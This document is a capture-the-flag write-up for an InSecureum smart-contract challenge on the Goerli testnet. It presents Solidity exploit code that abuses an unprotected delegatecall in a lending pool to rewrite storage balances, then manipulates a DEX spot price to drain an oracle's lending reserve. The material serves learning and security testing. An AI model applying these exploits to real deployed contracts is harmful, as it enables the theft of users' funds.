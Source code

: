 Challenge 3
==========================================================================================================================================

Deployment transaction: https://goerli.etherscan.io/tx/0x2bc0f50f07e0fac29464cb258f5e37c69f239c46bb8ea264bdb412423dce69aa

Swap depletion transaction: https://goerli.etherscan.io/tx/0x4d186210d328a8c8eaf4c3a789f0502eea248bd8d5ee2b325a0ee2697ba2dcb2


-------
This challenge's main difficulty was getting inside the logic that made all 5 contracts work together. 

#### Exploit contract state variables:

```
    IERC20 public tokenInsecureum;
    mapping(address => uint) public balances;  // MUST be at this slot
    uint public lenderAmount;
    IERC20 public tokenBoring;
    address public owner;
    BorrowSystemInsecureOracle public oracle;
    InsecureDexLP public insecureDex;
    InSecureumLenderPool public lenderPool;
```

This is very important, as the correct implementation of state variables mean correct reference to storage slots, which will allow us to properly change values stored in a target smart contract that has unprotected delegateCall.

#### From [Layout of State Variables in Storage](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html):
* The first item in a storage slot is stored lower-order aligned.
* Value types use only as many bytes as are necessary to store them.
* If a value type does not fit the remaining part of a storage slot, it is stored in the next storage slot.
* Structs and array data always start a new slot and their items are packed tightly according to these rules.
* Items following struct or array data always start a new storage slot.

#### Constructor

I've opted to initiate the exploit contract by passing target contracts addresses as constructor arguments. That meant I had to utilize the contracts as the types passed at the constructor function.

```
    constructor(IERC20 _tokenInsecureum, 
                IERC20 _tokenBoring, 
                BorrowSystemInsecureOracle _oracle, 
                InsecureDexLP _insecureDex, 
                InSecureumLenderPool _lenderPool ) 
    {
        tokenInsecureum = _tokenInsecureum;
        tokenBoring = _tokenBoring;
        oracle = _oracle;
        insecureDex = _insecureDex;
        lenderPool = _lenderPool;
        owner = msg.sender;
    }
```

A second option would be to create interfaces for interaction with these contracts and utilize addresses as constructor arguments. After that we'd pass the contract's types and it's corresponding addresses in order to make external function calls.  

```
  InSecureumLenderPool lenderPool = InSecureumLenderPool(lenderPoolAddress);
  lenderPool.flashLoan(argument1, argument2);
```

### Part 1

The first thing to do was deploying a delegateCall attack as the InSecureumLenderPool allowed delegateCalls with user input.

```
function bytesGenerator (address attacker) public pure returns(bytes memory){
       return abi.encodeWithSignature("attack(address)", attacker);
    }

function startFlashLoan(address attacker, bytes calldata data) public {
        lenderPool.flashLoan(attacker, data);
    }
```

First put the attacker's address at the bytesGenerator function to get the value used as the 'data' argument for startFlashLoan. 
This will make the lender Pool's contract make a delegate call to our attack function, which will execute a state change that will update the attacker's balance.

```
function attack(address attacker)  public returns(bool) {
        uint totals = tokenInsecureum.totalSupply();
        balances[attacker] = totals/3;
        return true;
    }
```
[Delegate call attack tx](https://goerli.etherscan.io/tx/0x5216b97df9b5f5ccbc2b71c7306958661b91eaa1c9a3cc70efc36ec0446f8c20)

Once it's done, we can now withdraw all (10k) Insecureum tokens from the Lender Pool and get started with the Oracle contract.

### Part 2

I've withdrawn this balance to my own address.
Then I've transfered the token to the exploit contract and proceeded by loaning 5k Insecureum Token units and borrowing 100 Boring Token units at the Oracle. 
This is very important as the Insecure Swap Pool only has 100 units of each token. 

```
 function getLoan(uint amount, uint amount2) public onlyOwner{
        tokenInsecureum.approve(address(oracle), amount);
        oracle.depositToken0(amount);
        oracle.borrowToken1(amount2);
    }
```
[Loan tx](https://goerli.etherscan.io/tx/0x360a7cee6531f301a4572f415b0691295a03e3d36f28dd4d8b1125ec3a0ae7dd)

### Part 3

I've purchased 98 Boring Token units with 5k Insecureum Token units. And in order not to risk getting liquidated by any third party at the Oracle's smart contract, I've deposited the whole amount at the Oracle's pool.
What this will do is provide me a LOT of solvency funds to sweep away (via a borrowToken0 function call) all the 15k Insecureum Token units stored by the Oracle's reserve - since the Oracle calculates my solvency status based on the Swap's Contract current prices. If we take into account that the Solvency status only gets processed once, based on the initial state of the spot price we can infer that at the first borrowToken0 transaction, each Boring Token deposited at the contract will be able to borrow 1888,8888888888888888888888888889 Insecureum Token units.

#### Explanation:
```
  From the Swap's contract:
   function _calcAmountsOut(uint256 amountIn, uint256 reserveIn, uint256 reserveOut) internal pure returns(uint256 amountOut) {
        amountIn = amountIn * 1000;
        uint numerator = amountIn * reserveOut;
        uint denominator = reserveIn * 1000 + amountIn;
        amountOut = (numerator / denominator);
    }
  1 Boring Token units in = 1700 Insecureum Token units out.
  We need to take into account that there's a (100/90 * 100)% LTV(Loan-to-value) at the Oracle, so it's 
  1700 * 10/9 Insecureum Token units per Boring Token unit deposited.

``` 

Execute the sweep.

```
function swap(uint amount, uint amount2) public onlyOwner{
        tokenInsecureum.approve(address(insecureDex), amount);
        insecureDex.swap(address(tokenInsecureum), address(tokenBoring), amount);
        tokenBoring.approve(address(oracle), amount2);
        oracle.depositToken1(amount2);
        uint oraclesToken0Balance = tokenInsecureum.balanceOf(address(oracle));
        oracle.borrowToken0(oraclesToken0Balance);
    }
```
[Swap tx](https://goerli.etherscan.io/tx/0x4d186210d328a8c8eaf4c3a789f0502eea248bd8d5ee2b325a0ee2697ba2dcb2)

